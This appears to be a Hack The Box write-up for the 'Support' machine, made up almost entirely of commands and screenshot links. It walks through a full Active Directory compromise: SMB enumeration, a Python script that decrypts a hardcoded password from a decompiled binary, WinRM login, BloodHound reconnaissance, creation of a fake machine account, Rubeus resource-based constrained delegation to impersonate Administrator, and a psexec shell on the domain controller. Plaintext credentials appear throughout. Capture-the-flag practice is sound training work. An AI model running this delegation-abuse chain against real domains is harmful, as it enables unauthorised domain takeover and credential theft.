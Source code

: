 ```
smbclient -L \\\\10.10.11.174\\
smbclient \\\\10.10.11.174\\support-tools
unzip UserInfo.exe.zip
cat UserInfo.exe.config
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-arm64
sudo ./ILSpy
decrypt.py
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
tar -xf ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
./ApacheDirectoryStudio
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
Get-ADDomain
echo '10.10.11.174 dc.support.htb' | sudo tee -a /etc/hosts
whoami /groups
sudo neo4j start
/opt/BloodHound/BloodHound-linux-x64 ./BloodHound --no-sandbox
upload SharpHound.exe
./SharpHound.exe
download 20240514001541_BloodHound.zip
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
git clone https://github.com/Kevin-Robertson/Powermad.git
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-ADComputer -identity FAKE-COMP01
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
https://www.browserling.com/tools/remove-all-whitespace
base64 -d ticket.kirbi.b64 > ticket.kirbi
locate ticketConverter.py
./ticketConverter.py ticket.kirbi ticket.ccache
locate psexec.py
KRB5CCNAME=ticket.ccache ./psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.11.174
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c513fb68-50d1-41b4-8934-27824a4ed58e)

```
smbclient -L \\\\10.10.11.174\\
smbclient \\\\10.10.11.174\\support-tools
```
![image](https://github.com/regarmulia/HTB/assets/33616880/71fa0c96-fe56-4321-851b-d46f6b8f8795)

```
unzip UserInfo.exe.zip
cat UserInfo.exe.config
```
![image](https://github.com/regarmulia/HTB/assets/33616880/98094d02-a256-46d6-9bf1-f38c289f4c73)


```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-arm64
sudo ./ILSpy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c25352b4-a0c5-4d1c-bd87-6b71045eee0f)

```
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
        res += chr(e ^ k ^ key2)

print(res)
```
```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2b3ae44c-1a69-4e82-92c3-0ffaac79088c)


```
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
tar -xf ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
./ApacheDirectoryStudio
Ironside47pleasure40Watchful
```
![image](https://github.com/regarmulia/HTB/assets/33616880/875c3cc4-807f-429a-8bb9-8b8e08ac724e)


```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f0f57e9e-b8fc-4d4d-b8ac-3a129655c56f)


```
Get-ADDomain
echo '10.10.11.174 dc.support.htb' | sudo tee -a /etc/hosts
whoami /groups
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1f8391b0-f0b9-4bac-ac66-73d102f2e7df)


```
sudo neo4j start
/opt/BloodHound/BloodHound-linux-x64 ./BloodHound --no-sandbox

upload SharpHound.exe
./SharpHound.exe
download 20240514001541_BloodHound.zip
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a94dd19-bd0e-46f4-8099-c5e90c3cb25b)

![image](https://github.com/regarmulia/HTB/assets/33616880/91ef72f1-2187-471b-9c81-94bebd11c9d6)

![image](https://github.com/regarmulia/HTB/assets/33616880/e6e064fc-121f-4fe9-b1c8-2202bedd5815)


```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3d6b600f-4598-4175-bd67-5112eda8a285)


```
git clone https://github.com/Kevin-Robertson/Powermad.git
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-ADComputer -identity FAKE-COMP01
```
![image](https://github.com/regarmulia/HTB/assets/33616880/df2e4c56-b5f0-4166-8893-5f314a1ddd96)


```
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ef2757a0-de07-432e-9a48-9a27e403cc85)


```
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
58A478135A93AC3BF058A5EA0E8FDB71
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
https://www.browserling.com/tools/remove-all-whitespace
base64 -d ticket.kirbi.b64 > ticket.kirbi
locate ticketConverter.py
./ticketConverter.py ticket.kirbi ticket.ccache
locate psexec.py
KRB5CCNAME=ticket.ccache ./psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c7d86351-2afa-4ba9-a89f-33e93dbd0ad5)

![image](https://github.com/regarmulia/HTB/assets/33616880/ae871fd3-7dd0-4315-aac9-3859e1180ef7)
